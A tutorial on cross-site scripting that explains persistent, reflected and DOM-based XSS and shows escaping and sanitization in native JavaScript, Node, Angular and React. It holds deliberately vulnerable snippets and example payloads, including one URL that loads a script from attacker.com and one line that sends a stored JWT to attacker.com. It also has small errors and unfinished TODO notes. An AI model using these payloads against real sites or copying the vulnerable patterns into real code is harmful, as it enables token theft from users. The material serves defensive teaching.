



Cross Side Scripting
====================

Cross side scripting are one of the most prevalent attacks involving web
applications and javascript. Still ranking as the number 1 in the [2017's OWASP Top 10][1].

The attack consists in injecting malicious javascript code in the website. There
are three types of XSS attacks - `Reflected`, `Persistent` and `DOM` based.
All are based on javascript injection but but differ in a few aspects.

In this article we will explore the various types of XSS, as well as provide
vulnerable and secure code for each case.

The purpose of this section is to provide some understanding of XSS attacks and
to demonstrate how bad practices can lead to security issues.

## Persistent XSS
The first type of XSS we will be looking at is called Non-Persistent or reflected
XSS. This attack occurs when a malicious user is able to inject javascript that
ends up stored on the server-side, and from then on is displayed whenever said
page is requested by a user.

Consider the following scenario:

There's a news website that supports user comments. Whenever a user submits a
comment to a news article, that comment ends up stored on the server and from that
point forward, every time a new user loads the news page, the new user comments
will also be loaded.

But if a malicious user inserts javascript in the comment body instead
of just text, the javascript code will be stored on the server, and
everytime a user loads the news article's comments, said javascript will execute
on the user's browser.

A simple diagram to illustrate:

1. An attacker submits malicious javascript in a comment.  

  

2. An unsuspecting user requests the webpage with the injected javascript.  

  

3. Result.  

  

## Reflected XSS
Another type of XSS attack is called a reflected XSS. The difference between this
type of attack and the previously discussed one, is that in the previous example
the JS injected by the attacker ends up being stored on the server, and every
time the compromised webpage is sent to a user, the injected JS is also sent.

In the case of the reflected XSS, the malicious javascript is sent as part of
the request. The website then includes the injected javascript in the response,
and it is executed on the client-side.

An easy way to understand how this happens is to consider a search form that in
case of not finding any results writes the string you searched for on the webpage.


If a user searched for `<script>alert(XSS)</script>` this would make the browser
render the javascript inside the `<script>` tags, creating a relfected XSS.

This may not look too bad security-wise since it's not stored on the server
(which means that the JS would only render in the attacker's browser), but in fact
this allows the attacker to create a specially crafted URL that can be used to
compromise an unsuspecting user.

Let's see how.

A regular request to the search page would look something like:  
`http://example.com/search?q=mySearch`

But if the issue described before is present, then an URL such as:  
`http://example.com/search?q=<script>alert('XSS')</script>`

would cause the javascript inside the `<script>` tags to be rendered in the
browser of whoever made this request.

This means that if an attacker sends a user the previous search link, the
victim upon clicking the link, would unknowingly run malicious javascript in
his/her browser.

_______
//TODO ADD SANITIZATION, ADD CODE
_______

## DOM Based XSS

DOM based XSS is similar to persistent and reflected XSS's, but with one subtle,
but very important distinction - the malicious javascript won't be loaded when
the page loads, instead, the malicious JS executes as a result of treating user
input in an unsafe way.

An easy way to understand this type of vulnerability is to consider pages that
dynamically update content without refreshing the whole page. The technology that
allows for this to happen, is AJAX. And AJAX is essentially javascript and XML.

As an example consider the following script used to display ads on a website:
```javascript
document.write('<script type="text/javascript" src="' + (location.search.split('req=')[1] || '') + '"></scr'+'ipt>');
```

Since the `location.search.split` is not properly escaped, the `req` parameter
can be manipulated by an attacker to retrieve malicious javascript from a
third-party domain and inject it into the webpage the victim is visiting.
`
http://www.example.com/ads/displayad.html?req=https://www.attacker.com/poc/xss.js
`
To perform this attack, an attacker creates a URL as the one above, and a user
upon clicking it, would execute the contents of the malicious script in their
browser.

There is another type of XSS that take advantage of features that are client-side  
only. This means that through these techniques, no logs are ever recorded on the
server.

A simple example of each feature is presented:

### Fragment identifiers:

The following script is very simple and for demonstration purposes only, but
encompasses the concept.

If this script was on a page:
```html
<script>
x=location.hash.slice(1);
document.write(x)
</script>
```

Then the following URL:
```
http://example.com/fragment.html#<script>alert(1)</script>
```

would trigger a XSS based on the fragment identifier.

### Local Storage

Another feature called `Local Storage` introduced with HTML5 also allows for
DOM based XSS's without the server logging.

`Local Storage` allows application data to be stored locally in the user's browser,
without resorting to cookies. There are several differences from cookies.
It is usually regarded as more secure and more performant than cookies, it also
allows a larger storage limit (5MB).

It should be noted that both `cookies` and `localStorage` are protected from
unrelated domains by the `Same-Origin Policy`.

For our demonstration, the feature we will focus on is the fact that the
data stored with `localStorage` is never sent to the server.
This is what allows the DOM-XSS to be performed without logs on the server-side.

A simple example:
```html
<script>
//Save our sample data
localStorage.setItem("JWT", "JWTTOKEN");

document.write("new Image().src='http://www.attacker.com?token="+localStorage.getItem('JWT')+"'>");
</script>
```

An important security detail to keep in mind is that the `localStorage` object
stores the data without an expiration date. This means that the data will not be
deleted when the browser is closed.

### The fix:
#### Native Javascript:

One of the required steps to handle this type of issue is to escape the HTML by
replacing it's special characters with their corresponding entities.

As of Javascript 1.5 (ECMAScript v3) there are two built-in function that encode special
characters and prevent the rendering of the javascript injection in user's
browsers.

The `encodeURI()` function encodes all special characters except:  
`, / ? : @ & = + $ #`
And the result will be a valid URL.

Code example:
```javascript
encodeURI("http://example.com/news/1?comment=<script>alert(XSS1)</script>");
```
Result:
```
"http://example.com/news/1?comment=%3Cscript%3Ealert(XSS1)%3C/script%3E"
```
If the special characters are not supported by the previous function,
the `encodeURIComponent()` can be used to encode instead.

Code example:
```javascript
encodeURIComponent("http://example.com/news/1?comment=<script>alert(XSS1)</script>");
```
Result:
```
"http%3A%2F%2Fexample.com%2Fnews%2F1%3Fcomment%3D%3Cscript%3Ealert(XSS1)%3C%2Fscript%3E"
```

Note that `encodeURIComponent()` does not escape the `'` character. A common bug
is to use it to create `HTML` attributes such as `href='MyUrl'`, which could
suffer an injection bug.  
If you are constructing HTML from strings, either use `"` instead of `'` for
attribute quotes, or add an extra layer of encoding (`'` can be encoded as `%27`).

#### Node.JS

In Node.JS there are some modules that help with output encoding. To demonstrate
this we will use the `xss-filters` npm package, available [here](https://www.npmjs.com/package/xss-filters).
This example is using the package on top of `express`.
Taken from the documentation:

```javascript
var express = require('express');
var app = express();
var xssFilters = require('xss-filters');

app.get('/', function(req, res){
  var firstname = req.query.firstname; //an untrusted input collected from user
  res.send('<h1> Hello, ' + xssFilters.inHTMLData(firstname) + '!</h1>');
});

app.listen(3000);
```

Notice that when we're dealing with untrusted user input we first pass the
input to the `xssFilters.inHTMLData()` function to safely encode the output.

There are a few warnings that accompany this package.
Namely:
  - Filters __MUST ONLY__ be applied to UTF-8 encoded documents.
  - DON'T apply any filters inside any scriptable contexts, i.e., `<script>`,
  `<style>`, `<object>`, `<embed>`, and `<svg>` tags as well as `style=""`
  and `onXXX=""` (e.g., `onclick`) attributes. It is unsafe to permit untrusted
  input inside a scriptable context.

#### AngularJS
Angular already has some built-in protections to help developers deal with
output encoding and XSS prevention.

By default Angular treats all values as untrusted. This means that whenever a
value is inserted into the DOM from a `template`, `property`, `attribute`,
`style`, `class binding` or `interpolation` Angular sanitizes and escapes
untrusted values.

An important note about Angular is:
__Angular templates are the same as executable code.__

This means you should __never__ generate template source code by concatenating user
input and templates.  
Instead use the [offline template generator](https://angular.io/guide/security#offline-template-compiler).

Sanitization example as per the documentation:

```javascript
export class InnerHtmlBindingComponent {
  // For example, a user/attacker-controlled value from a URL.
  htmlSnippet = 'Template <script>alert("0wned")</script> <b>Syntax</b>';
}
```

```html
<h3>Binding innerHTML</h3>

<p>Bound value:</p>
<p class="e2e-inner-html-interpolated">{{htmlSnippet}}</p>

<p>Result of binding to innerHTML:</p>
<p class="e2e-inner-html-bound" [innerHTML]="htmlSnippet"></p>
```
Note that in the presented code snippet there are two types of content:
   - Interpolated content.
   - HTML property binding.

Interpolated content is always escaped which means the HTML isn't interpreted
and the browser displays angle brackets as text.

On the other hand when using property binding such as `innerHTML`, but
__be careful__ when binding a value that an attacker might control into `innerHTML`
since this normally causes an XSS vulnerability.

An interesting note is that Angular recognizes the `<script>` tag and it's
content as unsafe and automatically sanitizes it.
This means that the result of the previous snippets is the following:

  

An __important note__ about the DOM API is to avoid it's direct usage since they
don't automatically protect you from security vulnerabilities.
So remember to __always use Angular templates__ where possible. In case you need
to dynamically construct forms in a safe way, see the [Dynamic Forms](https://angular.io/guide/dynamic-form) guide
page.

Another type of vulnerability that developers should be aware of is the
`Cross-site script inclusion (XSSI)` which is also known as JSON vulnerability.  
To prevent this use the `HttpClient` library in order to strip the string
`")]}',\n"` from all responses before further parsing.

For more information see the XSSI section [here](https://security.googleblog.com/2011/05/website-security-for-webmasters.html).

Finally there are also legitimate cases where applications need to include
executable code.

To inject executable code we need to inject `DomSanitizer` and call one
of the following methods:

  - `bypassSecurityTrustHtml`
  - `bypassSecurityTrustScript`
  - `bypassSecurityTrustStyle`
  - `bypassSecurityTrustUrl`
  - `bypassSecurityTrustResourceUrl`  

But __be very careful__ using these. If you trust a value that might be
malicious, your are introducing a security vulnerability.

#### React.js
In Reacts.JS we create React "elements" by using `JSX`.  
`JSX` is a syntax extension to Javascript.

By default React DOM escapes any values embedded in JSX before rendering them.
This means that you can never inject anything that isn't explicitly written in
your application.
This is a big help preventing XSS attacks.

But there are security risks associated with some functions and HTML tags.

The first is the use of `dangerouslySetInnerHTML`.
As the name suggests, it will render the content as HTML.

This means that where previously a XSS vector would fail due to being treated
as plaintext, now it's being rendered as HTML. Now, as usual, if you're taking
user input and passing it to `dangerouslySetInnerHTML` then you have a possible
XSS on your application.

So __be very careful__ using this!

Snippet to demonstrate the possible XSS:
```javascript
function possibleXSS() {
  return { __html: '</img>' };
};

const App = () => (
  <div dangerouslySetInnerHTML={possibleXSS()} />
);

render(<App />, document.getElementById('root'));
```
The result of this is:  


The second security risk developers must be aware of, is the usage of user input
as the value of an `href` attribute. This will allow an attacker to inject
Javascript directly to the `href` and bypass the security measures set by React.

Which means __don't do this__ :
```html
<div id="root">
</div>
```

```javascript

[...]

//Get user input from URI
var query = getQueryParams(document.location.search);

ReactDOM.render(
  <a href={query.page}>Click me!</a>,
  document.getElementById('root')
);
```
Because if you do, and an attacker submits the following request:  
`http://example.com?page=javascript:prompt(1)`

The result will be:  


//TODO: Eval() and babel.run? Does it make sense to talk about this here? Or do
//we assume that the eval() is part of javascript security not react specific?
//TODO - Check references and links.

[1]: https://www.owasp.org/index.php/Top_10_2017-Top_10
